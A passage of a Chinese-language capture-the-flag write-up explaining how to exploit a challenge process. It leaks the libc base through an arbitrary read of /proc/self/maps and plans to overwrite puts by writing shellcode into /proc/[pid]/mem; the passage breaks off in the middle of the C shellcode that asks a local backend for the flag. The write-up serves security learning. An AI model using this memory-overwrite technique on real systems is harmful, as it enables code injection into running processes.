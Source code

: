     >        35b1a21000-35b1a22000 rw-p 00000000 00:00 0
    >        35b1c00000-35b1dac000 r-xp 00000000 08:02 135870  /usr/lib64/libc-2.15.so
    >        35b1dac000-35b1fac000 ---p 001ac000 08:02 135870  /usr/lib64/libc-2.15.so
    >        35b1fac000-35b1fb0000 r--p 001ac000 08:02 135870  /usr/lib64/libc-2.15.so
    >        35b1fb0000-35b1fb2000 rw-p 001b0000 08:02 135870  /usr/lib64/libc-2.15.so
    >        ...
    >        f2c6ff8c000-7f2c7078c000 rw-p 00000000 00:00 0    [stack:986]
    >        ...
    >        7fffb2c0d000-7fffb2c2e000 rw-p 00000000 00:00 0   [stack]
    >        7fffb2d48000-7fffb2d49000 r-xp 00000000 00:00 0   [vdso]
    從以上訊息我們知道，/proc/[pid]/mem就是實際執行該隻process的memory，而/proc/[pid]/maps就是該隻process的memory mapping，所以關於怎麼利用可以看一下[csdn的這篇文章](https://blog.csdn.net/dog250/article/details/108618568)，基本上要做的事情和我們差不多，目標都是去修改/proc/[pid]/mem中的value，不過中間有很多東西需要考慮:
    1. 要寫甚麼shellcode
    2. 要寫去哪裡
    
2. 先看要寫去哪裡
    按照前面所說應該是要寫/proc/[pid]/mem，但因為前面有提到他只能被open / read / lseek給access，所以目標應該是找出lseek的offset，並且把噁爛shellcode放進去；另外一個問題是我們不知道要寫到哪裡，所以我們可以利用前面的arbitrary read去看process的mapping為何，如下
    ```python
    # Read /proc/self/maps to leak Libc Base
    maps_layout = read_any_file(b'/proc/self/maps').split('\n')
    libc_base = int(maps_layout[7][:12], 16)
    puts_addr = libc_base + libc.symbols['puts']
    log.success(f"Libc Base address: {hex(libc_base)}")
    log.success(f'Puts Address: {hex(puts_addr)}')
    ```
    這樣的話，我們就知道他位於整個memory layout，以及我們想要置換的puts symbols的位置
3. 要寫甚麼
    前面有提到我們需要寫shellcode進去，以替換puts的行為，所以我們需要寫些甚麼server才能噴flag給我們呢?如下
    ```cpp
    # Socket Config
    int fd = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in info;
    info.sin_family = PF_INET;
    info.sin_addr.s_addr = inet_addr("127.0.0.1");
    info.sin_port = htons(8765);

    # Connect to Backend
    connect(fd, (struct sockaddr *)&info, sizeof(info))
        
    # Write 0x8787 to fd
    struct Command cmd;
    cmd.cmd = 0x8787;
    write(fd, &cmd, sizeof(cmd));
